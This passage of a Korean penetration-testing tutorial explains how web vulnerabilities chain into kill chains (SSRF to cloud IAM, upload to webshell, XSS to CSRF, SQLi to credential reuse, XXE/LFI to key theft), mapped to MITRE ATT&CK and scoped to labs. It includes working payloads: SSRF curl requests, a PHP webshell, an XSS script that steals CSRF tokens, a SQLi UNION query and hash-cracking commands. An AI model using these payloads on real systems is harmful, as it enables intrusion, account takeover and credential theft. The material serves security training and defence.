


> [!warning] 허가된 환경에서만
> 이 글의 모든 요청과 명령은 **본인이 소유하거나 서면으로 허가받은 환경**, PortSwigger Web Security Academy, 또는 이 글의 `127.0.0.1` Docker 체인 랩에서만 실행하세요. 한 단계를 증명한 뒤 다음 단계로 넘어갈지는 **교전 규칙(RoE)이 허용하는 범위**로 정합니다([[스코프와 교전규칙(RoE) — 모의해킹을 시작하기 전에 정해야 할 것들]]). 획득한 자격증명을 범위 밖 시스템에 시도하는 것은 진단이 아니라 침해입니다.

> [!summary] ⏱️ 5초 핵심 요약
> - **킬체인은 취약점 목록이 아니라 "얻은 것 → 다음 조건" 사슬**입니다. 각 단계에서 무엇(파일 읽기, 브라우저 실행, 서버발 요청, 코드 실행, 자격증명)을 얻었고, 그것이 다음 취약점의 어떤 **성립 조건**을 채우는지 적어야 체인이 됩니다.
> - 대표 경로 7개(SSRF→IAM, 업로드→웹셸→DB, XSS→CSRF→RCE, SQLi→재사용, XXE/LFI→서명키, 명령 주입→피벗→AD, 다운로드 핸들러→관리 콘솔)를 단계별로 따라가고, 각 단계는 해당 심화편의 정확한 절로 연결합니다.
> - 끝까지 해 보는 **Docker 체인 랩**(경로 조작 → 설정 파일 → 관리자 로그인 또는 세션 위조 → 명령 주입 → 내부 API 피벗)을 2026-11-27에 직접 빌드·실행해 확인했습니다.
> - 방어는 취약점별 패치보다 **여러 체인이 함께 지나가는 병목**(egress 통제, 시크릿 관리, 자격증명 재사용 금지, 실행 권한 축소)에서 끊는 것이 효율적입니다.

각 심화편 끝의 "다음 단계로 이어지는 공격" 절은 한 취약점이 **무엇을 넘겨주는지**만 짧게 적었습니다. 이 글은 그 넘겨받는 쪽까지 이어 붙여, 진단 중에 "이 발견이 어디까지 갈 수 있는가"를 판단하고 보고서에 **종합 위험**으로 쓰는 방법을 정리합니다.

---

## 킬체인을 읽는 법

### 단계 모델 — 정찰부터 목표까지

이 글은 시나리오를 다음 여섯 단계로 나눕니다. Lockheed Martin의 Cyber Kill Chain과 MITRE ATT&CK 전술을 웹 진단 관점으로 줄인 **이 블로그의 작업 모델**이며, 표준 용어 자체는 아닙니다.



단계가 항상 순서대로 나타나지는 않습니다. SSRF→IMDS처럼 **③ 실행 없이 ④ 자격증명으로 바로 가는** 체인도 있고, XSS처럼 **서버가 아니라 피해자 브라우저에서 ③이 일어나는** 체인도 있습니다. 중요한 것은 단계 이름보다 **단계 사이의 전이 조건**입니다.

### 각 단계에서 적어야 하는 네 가지

시나리오의 단계마다 다음 네 칸을 채웁니다. 이 네 칸이 진단 기록과 보고서의 재현 절차가 됩니다.

| 칸 | 의미 | 예시(SSRF→IMDS) |
|---|---|---|
| 기법 | 이 단계에서 쓴 구체적 요청·도구 | 서버발 GET으로 메타데이터 주소 조회 |
| 얻는 것 | 이 단계가 끝나면 공격자 손에 남는 것(primitive) | 응답 본문을 읽을 수 있는 내부 HTTP 요청 |
| 전이 조건 | 다음 단계가 성립하려면 **추가로** 참이어야 하는 것 | IMDSv1 허용, 또는 메서드·헤더 제어 가능 |
| 근거 링크 | 그 기법을 따라 할 수 있는 심화편 절 | [[웹 취약점 진단 SSRF편 — URL 검증을 넘어 내부망·프로토콜·렌더러까지#4. 클라우드 메타데이터 — IMDSv1과 IMDSv2\|SSRF편 4절]] |

**전이 조건이 거짓이면 체인은 거기서 끊깁니다.** 보고서에서 "SSRF로 클라우드 장악 가능"이라고 쓰려면 IMDS 버전, 역할 권한, egress를 모두 확인한 뒤여야 합니다. 확인하지 못한 조건은 "추정"으로 표시합니다.

### MITRE ATT&CK 대응

아래 표는 이 글의 시나리오에 나오는 행위를 ATT&CK Enterprise 기법에 대응시킨 것입니다. **확인**은 ATT&CK 기법 정의가 그 행위를 직접 설명하는 경우, **추정**은 해석에 따라 다른 기법으로도 볼 수 있는 경우입니다.

| 단계 | ATT&CK 전술 | 기법 | 이 글의 행위 | 매핑 |
|---|---|---|---|---|
| ① 정찰 | [Reconnaissance (TA0043)](https://attack.mitre.org/tactics/TA0043/) | [T1595.002 Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/) | 파라미터·기능 탐색, 스캐너 실행 | 확인 |
| ② 최초 침투 | [Initial Access (TA0001)](https://attack.mitre.org/tactics/TA0001/) | [T1190 Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) | SQLi·SSRF·XXE·업로드·경로 조작·명령 주입·역직렬화 | 확인 |
| ② 최초 침투 | Initial Access | [T1189 Drive-by Compromise](https://attack.mitre.org/techniques/T1189/) | 저장형 XSS로 방문자 브라우저에서 스크립트 실행 | 추정 |
| ③ 실행 | [Execution (TA0002)](https://attack.mitre.org/tactics/TA0002/) | [T1059 Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/) | 명령 주입·웹셸·pickle 가젯의 인터프리터 실행 | 확인 |
| ③ 지속 | [Persistence (TA0003)](https://attack.mitre.org/tactics/TA0003/) | [T1505.003 Web Shell](https://attack.mitre.org/techniques/T1505/003/) | 업로드한 스크립트를 웹 서버가 실행 | 확인 |
| ④ 자격증명 | [Credential Access (TA0006)](https://attack.mitre.org/tactics/TA0006/) | [T1552.001 Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) | `.env`·`application.yml`·`web.config`의 비밀번호 | 확인 |
| ④ 자격증명 | Credential Access | [T1552.004 Private Keys](https://attack.mitre.org/techniques/T1552/004/) | SSH·TLS 개인키 파일 읽기 | 확인 |
| ④ 자격증명 | Credential Access | [T1552.005 Cloud Instance Metadata API](https://attack.mitre.org/techniques/T1552/005/) | SSRF·XXE로 IMDS 역할 자격증명 획득 | 확인 |
| ④ 자격증명 | Credential Access | [T1539 Steal Web Session Cookie](https://attack.mitre.org/techniques/T1539/) | XSS로 `HttpOnly` 아닌 세션 쿠키 전송 | 확인 |
| ④ 자격증명 | Credential Access | [T1606.001 Forge Web Credentials: Web Cookies](https://attack.mitre.org/techniques/T1606/001/) | 유출된 서명키로 세션 쿠키 위조 | 확인 |
| ④ 자격증명 | Credential Access | [T1110.002 Password Cracking](https://attack.mitre.org/techniques/T1110/002/) | SQLi로 뽑은 해시 오프라인 크랙 | 확인 |
| ④ 권한 확대 | [Privilege Escalation (TA0004)](https://attack.mitre.org/tactics/TA0004/) 등 | [T1078 Valid Accounts](https://attack.mitre.org/techniques/T1078/), [T1078.004 Cloud Accounts](https://attack.mitre.org/techniques/T1078/004/) | 탈취·재사용한 계정과 IAM 키로 로그인 | 확인 |
| ④ 권한 확대 | Privilege Escalation | [T1098.003 Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003/) | IAM 정책 연결로 권한 추가 | 확인 |
| ④ 권한 확대 | Credential Access | [T1110.004 Credential Stuffing](https://attack.mitre.org/techniques/T1110/004/) | 한 시스템의 비밀번호를 다른 서비스에 대입 | 추정 |
| ⑤ 탐색 | [Discovery (TA0007)](https://attack.mitre.org/tactics/TA0007/) | [T1046 Network Service Discovery](https://attack.mitre.org/techniques/T1046/) | SSRF 포트 탐색, 셸에서 내부 서비스 확인 | 확인 |
| ⑤ 탐색 | Discovery | [T1580 Cloud Infrastructure Discovery](https://attack.mitre.org/techniques/T1580/) | 탈취한 IAM 키로 자원 열거 | 확인 |
| ⑤ 내부 이동 | [Lateral Movement (TA0008)](https://attack.mitre.org/tactics/TA0008/) | [T1021.004 Remote Services: SSH](https://attack.mitre.org/techniques/T1021/004/) | 재사용 비밀번호로 원격 접속 | 확인 |
| ⑤ 내부 이동 | [Command and Control (TA0011)](https://attack.mitre.org/tactics/TA0011/) | [T1090 Proxy](https://attack.mitre.org/techniques/T1090/), [T1572 Protocol Tunneling](https://attack.mitre.org/techniques/T1572/) | 터널 도구로 내부망 피벗 | 확인 |
| ⑥ 목표 | [Collection (TA0009)](https://attack.mitre.org/tactics/TA0009/) | [T1005 Data from Local System](https://attack.mitre.org/techniques/T1005/) | 서버 파일·내부 API 응답 수집 | 확인 |

> [!note] ATT&CK는 행위 사전이지 순서가 아니다
> ATT&CK 전술은 "왜 그 행위를 하는가"의 분류이며 실행 순서를 정의하지 않습니다([MITRE ATT&CK — Enterprise Tactics](https://attack.mitre.org/tactics/enterprise/)). 위 ①~⑥은 이 글의 서술 순서이고, 같은 기법이 여러 단계에 나올 수 있습니다.

---

## 전체 지도 — 무엇을 얻으면 무엇이 가능한가

### 노드와 엣지

왼쪽은 진입 취약점, 가운데는 그 취약점이 넘겨주는 **획득물(primitive)**, 오른쪽은 목표입니다. 화살표 라벨은 전이 조건입니다.



### 획득물 → 다음 단계 대응표

같은 내용을 표로 보면 "지금 손에 있는 것"에서 다음 후보를 고르기 쉽습니다.

| 지금 얻은 것 | 그것으로 시도할 다음 단계 | 추가로 참이어야 하는 조건 | 근거 |
|---|---|---|---|
| 서버 파일 읽기 | 설정 파일의 DB·API 비밀번호 | 비밀이 파일에 평문으로 있음 | [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#10. 읽어야 할 고가치 파일 — 영향 확인은 최소한으로\|경로 조작편 10절]] |
| 서버 파일 읽기 | 소스에서 숨은 엔드포인트·역직렬화 지점 | 소스·백업 파일 경로를 앎 | [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#4. LFI와 `php://filter` — 실행하지 않고 소스 읽기\|경로 조작편 4절]] |
| 서버 파일 읽기 | 서명키로 세션·JWT 위조 | 대칭키(HMAC) 서명, 키 회전 없음 | [[웹 취약점 진단 심화 — 실무에서 보는 기법들#4. JWT (JSON Web Token) 검증 우회 공격\|심화 4절]] |
| 서버발 내부 요청 | 클라우드 메타데이터 자격증명 | IMDSv1 또는 헤더·메서드 제어 | [[웹 취약점 진단 SSRF편 — URL 검증을 넘어 내부망·프로토콜·렌더러까지#4. 클라우드 메타데이터 — IMDSv1과 IMDSv2\|SSRF편 4절]] |
| 서버발 내부 요청 | 무인증 내부 서비스(Redis·관리 API) | 프로토콜 제어(`gopher`) 또는 HTTP 관리 API | [[웹 취약점 진단 SSRF편 — URL 검증을 넘어 내부망·프로토콜·렌더러까지#3. 프로토콜 스머글링 — `gopher`로 Redis·내부 HTTP 말하기\|SSRF편 3절]] |
| 피해자 브라우저 실행 | CSRF 토큰을 읽어 상태 변경 | 같은 출처에서 실행 | [[웹 취약점 진단 CSRF편 — 토큰 검증부터 SameSite 우회까지#6. XSS와 결합 — 같은 출처 코드 실행은 토큰을 읽는다\|CSRF편 6절]] |
| 관리자 세션 | 업로드·템플릿 편집·진단 도구 | 관리 기능에 실행 경로가 있음 | [[웹 취약점 진단 심화 — 실무에서 보는 기법들#14. SSTI — 템플릿 엔진 식별에서 영향 확인까지\|심화 14절]] |
| 서버 코드 실행 | 환경 변수·설정의 비밀, 내부망 | 웹 프로세스가 비밀·내부망에 접근 가능 | [[웹 취약점 진단 OS 명령 주입편 — 셸 문맥부터 Blind와 인자 주입까지#다음 단계로 이어지는 공격\|명령 주입편 다음 단계]] |
| 해시·비밀번호 | 재사용으로 다른 서비스 로그인 | 같은 비밀번호 재사용, MFA 없음 | [[윈도우 AD 침투 — 자격증명 피벗·권한상승 3가지 기법#2. 애플리케이션이 DB에 평문 자격증명을 저장 (개발 잔재 악용)\|AD 침투 2절]] |
| IAM 키 | 권한 열거와 권한 상승 | 역할에 위험 동사 조합이 있음 | [[클라우드 인프라 진단 — AWS IAM 권한상승 체인#5. 체인 단위 진단 절차와 CloudTrail 탐지\|IAM 체인 5절]] |

---

## 시나리오 a. SSRF → 클라우드 메타데이터 → IAM 자격증명 → 권한 확대

> [!info] 실습 위치
> 1~2단계는 [[웹 취약점 진단 SSRF편 — URL 검증을 넘어 내부망·프로토콜·렌더러까지#공통 localhost Docker 실습 앱|SSRF편 공통 Docker 랩]]의 모의 IMDS로 재현합니다. 공식 랩으로는 [Lab: Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)가 같은 흐름(서버발 요청 → 모의 EC2 메타데이터 → IAM 키)을 줍니다. 3~4단계의 AWS 명령은 **본인 소유의 테스트 계정**에서만 실행합니다.

| 단계 | 기법 | 얻는 것 | 다음으로 넘어가는 조건 | 근거 |
|---|---|---|---|---|
| 1. SSRF 성립 | URL 입력값을 내부 주소로 변경, 응답·시간 차이 확인 | 서버발 요청과 응답 읽기 | 응답이 보이거나(기본) OOB로 도달 확인(Blind) | [[웹 취약점 진단 SSRF편 — URL 검증을 넘어 내부망·프로토콜·렌더러까지#1. 기본 SSRF와 Blind SSRF\|SSRF편 1절]], 필터가 있으면 [[웹 취약점 진단 SSRF편 — URL 검증을 넘어 내부망·프로토콜·렌더러까지#2. URL 파서 차이·IP 표기·DNS rebinding·리다이렉트\|2절]] |
| 2. 메타데이터 | 역할 이름 → 자격증명 경로 조회 | `AccessKeyId`·`SecretAccessKey`·`Token` | IMDSv1이거나, SSRF가 PUT과 임의 헤더까지 대리 | [[웹 취약점 진단 SSRF편 — URL 검증을 넘어 내부망·프로토콜·렌더러까지#4. 클라우드 메타데이터 — IMDSv1과 IMDSv2\|SSRF편 4절]], [[클라우드 인프라 진단 — IMDS SSRF로 자격증명 탈취#3. 프록시가 메서드와 헤더를 보존할 때의 IMDSv2 체인\|IMDS 3절]] |
| 3. 신원·권한 확인 | 키를 환경 변수로 설정 후 신원·정책 열거 | 역할 ARN과 허용 동작 목록 | 역할에 열거 권한이 있거나 정책을 추정 가능 | [[클라우드 인프라 진단 — IMDS SSRF로 자격증명 탈취#4. 탈취 이후의 권한 범위와 탐지\|IMDS 4절]] |
| 4. 권한 확대 | `iam:PassRole`+컴퓨트 생성, 정책 버전·연결 동사 조합 | 더 높은 역할 또는 관리자 정책 | 위험 동사 조합이 실제로 허용됨 | [[클라우드 인프라 진단 — AWS IAM 권한상승 체인#2. `iam:PassRole`과 컴퓨트 생성 권한의 결합\|IAM 체인 2절]] |
| 5. 목표 | S3 객체 열거·다운로드 | 데이터 접근 증명 | 버킷 정책·BPA가 허용 | [[클라우드 인프라 진단 — S3·스토리지 오남용과 데이터 유출 체인#5. 데이터 유출 체인의 검증과 탐지\|S3 5절]] |

### 따라하기 — 로컬 모의 IMDS에서 1~2단계

SSRF편 공통 랩을 띄운 상태(`127.0.0.1:5000`)에서 다음을 실행합니다.

```bash
# 1단계: 단순 GET SSRF로 IMDSv1 경로 조회
curl -sG 'http://127.0.0.1:5000/fetch' \
  --data-urlencode 'url=http://metadata:1338/v1/latest/meta-data/iam/security-credentials/lab-role'
# 기대: "LOCAL_V1_ONLY"

# 2단계: v2는 토큰이 필요 — 메서드·헤더를 대리하는 /proxy가 있을 때만 이어진다
curl -s -X POST 'http://127.0.0.1:5000/proxy' -H 'Content-Type: application/json' \
  -d '{"url":"http://metadata:1338/latest/api/token","method":"PUT","headers":{"X-aws-ec2-metadata-token-ttl-seconds":"60"}}'
# 기대: LOCAL-LAB-TOKEN
```

### 3~4단계 — 본인 테스트 계정에서의 확인 명령

```bash
export AWS_ACCESS_KEY_ID=ASIA...           # 2단계에서 얻은 값
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
aws sts get-caller-identity                 # 어떤 역할인지
aws iam list-attached-role-policies --role-name <역할 이름>   # 권한이 있으면
aws iam simulate-principal-policy --policy-source-arn <역할 ARN> \
  --action-names iam:PassRole ec2:RunInstances lambda:CreateFunction
```

**체인이 끊기는 지점**: IMDSv2 강제(`HttpTokens=required`) + GET 전용 SSRF, hop limit 1과 컨테이너 경계, 역할 최소 권한. 키를 얻었어도 역할에 위험 동사가 없으면 4단계는 성립하지 않으므로 **"자격증명 탈취(확인)·권한 확대(불가 또는 추정)"**로 나눠 씁니다.

---

## 시나리오 b. 파일 업로드 → 웹셸 → 설정 파일 자격증명 → DB·내부망

> [!info] 실습 위치
> 1~2단계는 PortSwigger [Lab: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)와 업로드편 랩들로, 3~4단계의 "실행 → 설정 → 내부 서비스" 흐름은 이 글의 [[#끝까지 이어서 해 보는 실습 — Docker 체인 랩|체인 랩]]으로 재현합니다.

| 단계 | 기법 | 얻는 것 | 다음으로 넘어가는 조건 | 근거 |
|---|---|---|---|---|
| 1. 업로드 검증 우회 | Content-Type·확장자·매직바이트 우회, 이중 확장자 | 서버에 공격자 파일 저장 | 저장 위치를 알거나 예측 가능 | [[웹 취약점 진단 파일 업로드편 — 검증 경계에서 웹셸 실행까지#1. 확장자·MIME·매직바이트 검증 우회\|업로드편 1절]], [[웹 취약점 진단 파일 업로드편 — 검증 경계에서 웹셸 실행까지#2. 이중 확장자와 서버 파서 차이\|2절]] |
| 2. 실행 | 실행 디렉터리 지정(`.htaccess`), 저장 경로 조작, Zip Slip | 웹 프로세스 권한의 코드 실행 | 그 위치를 웹 서버가 인터프리터로 넘김 | [[웹 취약점 진단 파일 업로드편 — 검증 경계에서 웹셸 실행까지#3. `.htaccess`·`web.config` 업로드\|3절]], [[웹 취약점 진단 파일 업로드편 — 검증 경계에서 웹셸 실행까지#5. 경로 조작으로 저장 위치 바꾸기\|5절]], [[웹 취약점 진단 파일 업로드편 — 검증 경계에서 웹셸 실행까지#8. 업로드 → 웹셸 → 실행까지 한 줄로 증명하기\|8절]] |
| 3. 자격증명 | 설정 파일·환경 변수에서 DB 접속 정보 확인 | DB 계정·내부 API 토큰 | 비밀이 파일·환경에 평문 | [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#10. 읽어야 할 고가치 파일 — 영향 확인은 최소한으로\|경로 조작편 10절]] |
| 4. DB·내부망 | 웹 서버에서 DB·내부 API로 직접 연결 | 데이터 접근, 추가 자격증명 | DB가 웹 서버에서만 열려 있어도 충분(웹 서버가 이미 안쪽) | [[윈도우 AD 침투 — 자격증명 피벗·권한상승 3가지 기법#2. 애플리케이션이 DB에 평문 자격증명을 저장 (개발 잔재 악용)\|AD 침투 2절]] |

### 따라하기 — 공식 랩에서 1~2단계, 그리고 3단계로 넘어가는 증거

공식 랩에서는 범용 웹셸 대신 **한 가지 사실만 출력하는 최소 파일**을 올립니다.

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

실무 진단에서 3단계로 넘어갈 때는 파일 내용을 그대로 수집하지 말고 **키 이름과 존재 여부만** 기록합니다.

```php
<?php
// Evidence only: list variable names from the app config, never values.
foreach (['DB_HOST', 'DB_USER', 'DB_PASSWORD'] as $k) {
    echo $k, '=', getenv($k) === false ? 'absent' : 'present', "\n";
}
```

**체인이 끊기는 지점**: 업로드 저장소를 웹 루트 밖(또는 오브젝트 스토리지)에 두고 실행 금지, 랜덤 파일명, 웹 프로세스 계정에서 설정 파일 읽기 금지, DB 접근을 애플리케이션 전용 최소 권한 계정으로 제한.

---

## 시나리오 c. XSS → CSRF(관리자 기능) → 관리자 계정 탈취 → 업로드·템플릿 편집으로 RCE

> [!info] 실습 위치
> 1~3단계는 PortSwigger [Lab: Exploiting XSS to bypass CSRF defenses](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)와 [Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies), 관리자 화면 실행 확인은 [[웹 취약점 진단 XSS편 — 문맥 탈출부터 CSP·Blind XSS까지#5. Blind XSS — 실행 화면을 볼 수 없을 때 localhost로 콜백 받기|XSS편 5절 Docker]], 4단계는 [Lab: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)과 업로드 웹셸 랩으로 각각 확인합니다. 하나의 공식 랩에 네 단계가 모두 들어 있지는 않습니다.

| 단계 | 기법 | 얻는 것 | 다음으로 넘어가는 조건 | 근거 |
|---|---|---|---|---|
| 1. 관리자 브라우저에서 실행 | 문의·리뷰·로그 뷰어에 저장형/Blind XSS | 관리자 출처의 스크립트 실행 | 관리자가 그 화면을 연다, CSP가 막지 못함 | [[웹 취약점 진단 XSS편 — 문맥 탈출부터 CSP·Blind XSS까지#5. Blind XSS — 실행 화면을 볼 수 없을 때 localhost로 콜백 받기\|XSS편 5절]], [[웹 취약점 진단 XSS편 — 문맥 탈출부터 CSP·Blind XSS까지#4. CSP 우회 — JSONP·`base-uri`·nonce 재사용·dangling markup\|4절]] |
| 2. CSRF 방어 무력화 | `fetch`로 관리 페이지를 읽어 CSRF 토큰 파싱 | 유효한 토큰을 실은 관리자 요청 | 같은 출처 실행(토큰·SameSite 무관) | [[웹 취약점 진단 CSRF편 — 토큰 검증부터 SameSite 우회까지#6. XSS와 결합 — 같은 출처 코드 실행은 토큰을 읽는다\|CSRF편 6절]] |
| 3. 관리자 계정 탈취 | 관리자 이메일 변경 → 비밀번호 재설정, 또는 공격자 계정에 관리자 역할 부여 | 지속 가능한 관리자 권한 | 변경 시 재인증·알림이 없음 | [[웹 취약점 진단 XSS편 — 문맥 탈출부터 CSP·Blind XSS까지#6. 세션 탈취와 계정 탈취로 잇기 — `document.cookie`만 보지 않는다\|XSS편 6절]] |
| 4. RCE | 관리 콘솔의 템플릿 편집(SSTI) 또는 플러그인·파일 업로드 | 서버 코드 실행 | 관리 기능이 서버 측 실행으로 이어짐 | [[웹 취약점 진단 심화 — 실무에서 보는 기법들#14. SSTI — 템플릿 엔진 식별에서 영향 확인까지\|심화 14절]], [[웹 취약점 진단 파일 업로드편 — 검증 경계에서 웹셸 실행까지#8. 업로드 → 웹셸 → 실행까지 한 줄로 증명하기\|업로드편 8절]] |

### 따라하기 — 2~3단계를 한 스크립트로

공식 랩의 댓글 XSS에 다음을 넣으면 피해자 이메일이 바뀝니다. 실무에서는 이메일 대신 **테스트 계정에 무해한 표식 필드를 바꾸는 요청**으로 같은 사실을 증명합니다.

```html
<script>
fetch("/my-account")
  .then((r) => r.text())
  .then((html) => /name="csrf" value="([^"]+)"/.exec(html)[1])
  .then((csrf) => fetch("/my-account/change-email", {
    method: "POST",
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    body: new URLSearchParams({csrf, email: "chain-lab@example.com"}),
  }));
</script>
```

관리자 화면에서 실행되는 경우라면 같은 패턴으로 `/admin/users/{id}/role` 같은 관리자 전용 엔드포인트를 호출할 수 있습니다. 4단계로 넘어가려면 **관리 콘솔에 실행 경로가 있는지**를 따로 확인해야 하며, 없으면 체인은 "관리자 권한 탈취"에서 끝납니다.

**체인이 끊기는 지점**: 출력 인코딩과 CSP(1단계), 민감 변경의 재인증·알림(3단계), 관리 콘솔 분리와 템플릿 샌드박스(4단계). CSRF 토큰은 XSS 앞에서 무력하므로 **2단계는 끊는 지점이 아닙니다.**

---

## 시나리오 d. SQLi(Second-Order·OOB) → 자격증명 덤프 → 재사용 → 원격 접속

> [!info] 실습 위치
> 1~2단계는 PortSwigger [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables), [Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration), 그리고 [[웹 취약점 진단 SQLi편 — OOB·Second-Order·Blind까지 끝내기#4. OOB — DNS·HTTP로 보이지 않는 쿼리 증명하기|SQLi편 4절 Docker 랩]]으로 재현합니다. 3~4단계(크랙·재사용·원격 접속)는 공식 랩이 없으므로 **본인 소유의 테스트 VM**에서만 합니다.

| 단계 | 기법 | 얻는 것 | 다음으로 넘어가는 조건 | 근거 |
|---|---|---|---|---|
| 1. 주입·추출 | UNION으로 `users` 테이블 조회, 응답이 없으면 Blind·OOB | 사용자명과 비밀번호(평문 또는 해시) | 응답 반사, 또는 DB의 외부 DNS/HTTP 요청 허용 | [[웹 취약점 진단 SQLi편 — OOB·Second-Order·Blind까지 끝내기#2.1 UNION 기반\|SQLi편 2.1절]], [[웹 취약점 진단 SQLi편 — OOB·Second-Order·Blind까지 끝내기#3. Blind — Boolean, Time, 조건부 에러\|3절]], [[웹 취약점 진단 SQLi편 — OOB·Second-Order·Blind까지 끝내기#4. OOB — DNS·HTTP로 보이지 않는 쿼리 증명하기\|4절]] |
| 1'. 대체 경로 | 가입값이 비밀번호 변경 쿼리에 결합되는 Second-Order | 덤프 없이 특정 계정 비밀번호 변경 | 저장값을 나중에 문자열 결합 | [[웹 취약점 진단 SQLi편 — OOB·Second-Order·Blind까지 끝내기#5. Second-Order — 저장할 때 안전해 보여도 다시 쓸 때 실행된다\|SQLi편 5절]] |
| 2. 크랙 | 해시 형식 식별 후 오프라인 크랙 | 평문 비밀번호 | 약한 해시(MD5·SHA1 무솔트) 또는 약한 비밀번호 | — |
| 3. 재사용 | 같은 비밀번호로 관리 콘솔·VPN·원격 접속 시도(범위 안 자산만) | 다른 시스템의 유효 계정 | 비밀번호 재사용, MFA 없음 | [[웹 취약점 진단 인증편 — 계정 잠금 우회부터 세션 하이재킹까지#1. 계정 잠금 (Account Lockout) 우회\|인증편 1절]] |
| 4. 원격 접속 | SSH·RDP·WinRM 로그인 | 서버 셸, 내부망 시작점 | 관리 포트가 진단 위치에서 열림 | [[펜테스터를 위한 네트워크 피벗팅과 터널링 — SSH, Chisel, Ligolo-ng, Proxychains#3. SSH Local·Remote·Dynamic Port Forwarding\|피벗팅 3절]] |

### 따라하기 — 공식 랩 1단계와 테스트 VM 2~4단계

```http
GET /filter?category=Gifts'+UNION+SELECT+username,+password+FROM+users-- HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
```

응답에 `administrator` 행이 나오면 1단계 성공입니다. 테스트 VM에서 2~4단계를 연습할 때는 직접 만든 계정의 해시를 씁니다.

```bash
# 2단계: 해시 형식 확인 후 크랙(예: bcrypt = hashcat 모드 3200, MD5 = 0)
hashcat --identify hashes.txt
hashcat -m 3200 hashes.txt wordlist.txt
```

**체인이 끊기는 지점**: 바인딩 쿼리(1·1'단계), DB 계정의 외부 네트워크 차단(OOB), 강한 적응형 해시(2단계), 비밀번호 재사용 금지와 관리 접속 MFA(3~4단계). 보고서에는 "해시 덤프 성공"과 "재사용 성공"을 **별도 사실**로 씁니다.

---

## 시나리오 e. XXE/LFI → 소스·키 파일 → 세션 서명키 위조 또는 역직렬화 RCE

> [!info] 실습 위치
> 1단계는 PortSwigger [Lab: Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)와 [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#공통 localhost Docker 실습 앱|경로 조작편 공통 Docker]], "소스 노출 → 역직렬화"는 [Lab: Arbitrary object injection in PHP](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)(백업 파일로 소스를 읽은 뒤 객체 주입)로 이어서 할 수 있습니다. "서명키 → 세션 위조"는 이 글의 [[#5단계 대체 경로 — 서명키로 관리자 세션 위조|체인 랩 대체 경로]]에서 직접 검증했습니다.

| 단계 | 기법 | 얻는 것 | 다음으로 넘어가는 조건 | 근거 |
|---|---|---|---|---|
| 1. 파일 읽기 | XXE 외부 엔티티·Blind OOB, LFI `php://filter` | 설정·소스 파일 내용 | 반사 또는 OOB·에러 채널 | [[웹 취약점 진단 XXE편 — XML 파서에서 파일·내부망·업로드 경계까지#1. 기본 XXE — 외부 엔티티로 파일 읽기\|XXE편 1절]], [[웹 취약점 진단 XXE편 — XML 파서에서 파일·내부망·업로드 경계까지#3. Blind XXE — OOB 외부 DTD와 에러 기반 로컬 DTD\|3절]], [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#4. LFI와 `php://filter` — 실행하지 않고 소스 읽기\|경로 조작편 4절]] |
| 2. 키 확인 | 소스·설정에서 세션 `secret_key`, JWT HMAC 키, ASP.NET `machineKey` 확인 | 서명·암호화 키 | 키가 파일·환경에 있음(KMS·HSM 아님) | [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#7. `/proc/self/environ` — 실행 중 프로세스의 환경 읽기\|경로 조작편 7절]] |
| 3a. 세션 위조 | 키로 `{"user":"admin"}` 쿠키·JWT 서명 | 관리자 세션 | 서버가 서명만 보고 세션을 신뢰(서버측 저장소 없음) | [[웹 취약점 진단 심화 — 실무에서 보는 기법들#4. JWT (JSON Web Token) 검증 우회 공격\|심화 4절]] |
